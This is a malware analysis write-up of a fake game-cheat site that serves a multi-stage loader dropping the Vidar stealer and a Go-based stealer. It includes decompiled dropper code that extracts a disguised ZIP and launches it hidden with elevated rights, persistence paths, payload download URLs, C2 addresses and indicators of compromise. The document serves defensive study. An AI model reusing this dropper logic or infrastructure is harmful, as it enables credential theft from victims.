
# Analysis — Loader (Stealer) also (Vidar)

**Date:** 2026-04-05  

**Analyst:** dd1d3

**Source:** kubcheats.pro

**Classification:** Multi-stage loader → Vidar Stealer

---

## Disclaimer

Analysis conducted in isolated VM environment. All samples handled in sandboxed conditions. For educational purposes only.

---

## Overview

A fake cheat distribution site (`kubcheats.pro`) serving what appears to be game cheats for games. The downloaded archive contains a multi-stage loader that drops **Vidar**.

The loader uses four layers of obfuscation and misdirection before the final payload executes.



---

## Infection Chain

```
[kubcheats.pro] — fake website download
        │
        ▼
loader.exe  (C++ outer shell, Strange overlay)
        │
        └── embedded .NET assembly (hidden inside C++ binary) 
                │
                └── WindowsFormsApp1.exe  (C# dropper, .NET Core 8.0)
                        │
                        ├── chiken.dll  ← actually a ZIP archive (password: abc3728)   
                        ├ ──────────── conhost.exe  (Vidar Stealer, C#, heavily obfuscated)
                        │
                        └── downloads from GitHub:
                                └── craftpedro62-debug/_s/sass/utilities/
                                        ├── conhost.exe  (C# stealer component)
                                        └── randll32.exe (Go-based implant, UPX packed)
```

---

## Stage 1 — Initial Triage: loader.exe

**DIE results:**
- PE64, C/C++, compiled with MSVC 19.36 (LTCG/C++)
- Visual Studio 2022 v17.6
- **Heuristic: Compressed or packed data [Strange overlay]**
- Resource section contains embedded PE64 DLL — signed with Windows Authenticode
- PDB file link present (debug artifact)

The outer binary looks like a legitimate C++ application. The Strange overlay flag indicated something hidden inside confirmed by the embedded PE resource.


---

## Stage 2 — Discovering the .NET Layer

In the debugger, two anomalies appeared:

**OneDrive reference:**
```
L"C:\Program Files\Microsoft OneDrive\26.040.0301.0001\FileSyncShell64.dll"
```
No obvious relevance likely a decoy or side effect of the loader's environment checks.

**More critically — .NET runtime strings appeared in the debugger:**
```
loader.DotNetRuntimeInfo+83A0
loader.DotNetRuntimeInfo+6D38
return to loader.00007FF798A2E7DF from ???
return to loader.00007FF798ACC426 from loader.00007FF798AF0E60
```

Seeing `.NET` strings inside a C++ binary is a strong indicator the loader is bootstrapping a .NET runtime and executing a managed assembly without writing it to disk first.

Filtered strings for `.NET` in Ghidra confirmed: `DOTNET_IPC_V1`, `.NET Runtime`, `.NET Server GC`, `.NET Debugger` full CLR infrastructure embedded.






---

## Stage 3 — ExtremeDumper: Extracting the Hidden Assembly

Used **ExtremeDumper v4.0.0.1** to dump the loaded .NET assembly from memory at runtime.

Extracted: **`WindowsFormsApp1.exe`**

**DIE on dumped assembly:**
- PE64, C#, .NET Core v8.0, CLR v4.0.30319
- Microsoft Linker, Visual Studio
- PDB file link present
- Only 16.50 KiB — very small, this is a pure dropper

Dump directory contained full .NET Core runtime DLLs alongside the extracted executable confirming the loader bundles its own runtime.




---

## Stage 4 — dnSpy Analysis: WindowsFormsApp1.exe

The C# source decompiled cleanly in dnSpy. Key findings:

### Password hardcoded in plaintext

```csharp
// Token: 0x0400000A RID: 10
private string archivePassword = "abc3728";
```

No obfuscation on the dropper itself the archive password is stored as a plaintext field.



### chiken.dll is a disguised ZIP

```csharp
this.ExtractZipFile(text, this.archivePassword, this.extractDir + "\\");
string text3 = Path.Combine(this.extractDir, "conhost.exe");
if (File.Exists(text3))
{
    File.SetAttributes(text3, FileAttributes.Hidden | FileAttributes.System);
}
Process.Start(new ProcessStartInfo(text3)
{
    UseShellExecute = true,
    Verb = "runas",
    WindowStyle = ProcessWindowStyle.Hidden,
    CreateNoWindow = true
});
```

`chiken.dll` is not a DLL it is a ZIP archive. The dropper extracts it using the hardcoded password, retrieves `conhost.exe` from inside, then launches it with **elevated privileges** (`runas`).




### Persistence path

```csharp
private void InitializePaths()
{
    string directoryName = Path.GetDirectoryName(Process.GetCurrentProcess().MainModule.FileName);
    this.alternativePaths = new string[]
    {
        Path.Combine(directoryName, "bin", "chiken.dll"),
        Path.Combine(Directory.GetCurrentDirectory(), "bin", "chiken.dll"),
        Path.Combine(AppContext.BaseDirectory, "bin", "chiken.dll"),
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Update", "bin", "chiken.dll")
    };
    this.extractDir = Path.Combine(Environment.GetEnvironmentVariable("AppData"), "Update");
}
```



---

## Stage 5 — GitHub C2 Infrastructure

Inside `conhost.exe`, Ghidra string search for `github` returned two results:

```
https://github.com/craftpedro62-debug/_s/tree/master/sass/utilities/conhost.exe  
https://github.com/craftpedro62-debug/_s/tree/master/sass/utilities/randll32.exe 

```

### GitHub account: craftpedro62-debug

The account hosts a fork of `_s` (a WordPress starter theme by Automattic) a **6-year-old legitimate project** used as cover. The attacker added files to this repo approximately **one month ago**:

```
_s/sass/utilities/
├── conhost.exe   ← added last month
└── randll32.exe  ← added last month
```

Chrome's Safe Browsing immediately flagged `randll32.exe` on download:
> "Chrome blocked this download because the file is dangerous"

Windows Defender also detected threats on execution:
- `Trojan:Win32/Vidar.MCQ!MTB` — **Critical**
- `SettingsModifier:Win32/PossibleHostsFileHijack` — **Medium**











---

## Stage 6 — conhost.exe

**DIE results:**
- PE32, C#, .NET Framework v4.7.2, CLR v4.0.30319
- **Obfuscation: Modified EP + CLR constructor + Strange EP position + VirtualProtect**
- **Anti-analysis: Anti-debug + Anti-dnSpy + Anti-ILSpy + Anti-SandBoxie**
- **Packer: High entropy + Section 3 ".fpk" compressed**


**de4dot** (standard .NET deobfuscator) failed:
```
Detected Unknown Obfuscator (C:\Users\kidew\Downloads\conhost.exe)
Cleaning C:\Users\kidew\Downloads\conhost.exe
Unhandled Exception: System.ApplicationException: Invalid new target, it's null
```

The obfuscator used here is not in de4dot's signature database custom or heavily modified commercial protector.

**Imports revealed in dnSpy (partial — through obfuscation):**
```csharp
[DllImport("ntdll.dll", EntryPoint = "RtlAdjustPrivilege")]
[DllImport("kernel32.dll", EntryPoint = "OpenProcess")]
[DllImport("advapi32.dll", EntryPoint = "OpenProcessToken")]
[DllImport("advapi32.dll", EntryPoint = "DuplicateToken")]
[DllImport("kernel32.dll", EntryPoint = "CloseHandle")]
[DllImport("Crypt32.dll", EntryPoint = "CryptUnprotectData")]
```

`RtlAdjustPrivilege` + `OpenProcessToken` + `DuplicateToken` = **token impersonation / privilege escalation**.  
`CryptUnprotectData` = **DPAPI decryption** — used by Vidar to decrypt browser-saved credentials.

Windows Defender's detection of `Trojan:Win32/Vidar.MCQ!MTB` confirms this is a known Vidar variant.







---

## Stage 7 — randll32.exe (Go C2 Implant)

**DIE results (packed):**
- PE32, ASMx86, UPX 5.02 [LZMA, brute]

**After UPX unpacking:**
```
11670528 <- 3297280   28.25%   win32/pe   randll32.exe
```
Unpacked size: ~11 MiB

**DIE results (unpacked):**
- PE32, **Go (go1.22.0)**, 32-bit

Go binaries are notoriously difficult to reverse the standard library is statically linked and symbol names are often stripped. Analysis passed to Any.run for dynamic results.






---

## Stage 8 — Any.run Sandbox Results

**Process tree (Any.run):**
```
randll32.exe
    └── randll32.exe  [#SALATSTEALER]
            └── textinputhost.exe  [#SALATSTEALER]
                    ├── powershell.exe
                    ├── textinputhost.exe
                    ├── textinputhost.exe
                    └── conhost.exe
                            └── reagentc.exe
```

Family tag: **#SALATSTEALER** — a known Go-based stealer family.

**Network activity (conhost.exe):**

| Time | Process | Destination | Port | ASN |
|------|---------|-------------|------|-----|
| 111s | conhost.exe | 136.234.255.75 | 64737 | XSERVERCLOUD |
| 119s | conhost.exe | 195.58.62.98 | 63724 | ITHOSTLINE |
| 121s | conhost.exe | 195.58.62.98 | 63724 | ITHOSTLINE |
| 124s | conhost.exe | 136.234.255.75 | 64737 | XSERVERCLOUD |


Two distinct C2 servers:
- `136.234.255.75:64737` — XSERVERCLOUD (probably)
- `195.58.62.98:63724` — ITHOSTLINE (probably)








---

## IOCs

```
Domain:           kubcheats.pro
GitHub account:   craftpedro62-debug
GitHub URL:       https://github.com/craftpedro62-debug/_s/raw/...
Archive password: abc3728
Dropped filename: chiken.dll (ZIP), conhost.exe, randll32.exe
Persistence path: %AppData%\Update\
C2 server 1:      136.234.255.75:64737  (XSERVERCLOUD)
C2 server 2:      195.58.62.98:63724    (ITHOSTLINE)
AV detection:     Trojan:Win32/Vidar.MCQ!MTB
Stealer family:   SALATSTEALER
```

---

## Tools Used

| Tool | Purpose |
|------|---------|
| DIE (Detect It Easy) | Triage, packer/compiler detection |
| Ghidra | Static analysis, string extraction |
| x64dbg | Dynamic analysis, .NET loader detection |
| ExtremeDumper | CLR assembly extraction from memory |
| dnSpy | .NET decompilation |
| de4dot | .NET deobfuscation (partial failed on final layer) |
| UPX | Unpacking randll32.exe |
| Any.run | Dynamic sandbox — process tree, network |
| Windows Defender | Threat detection confirmation |

---
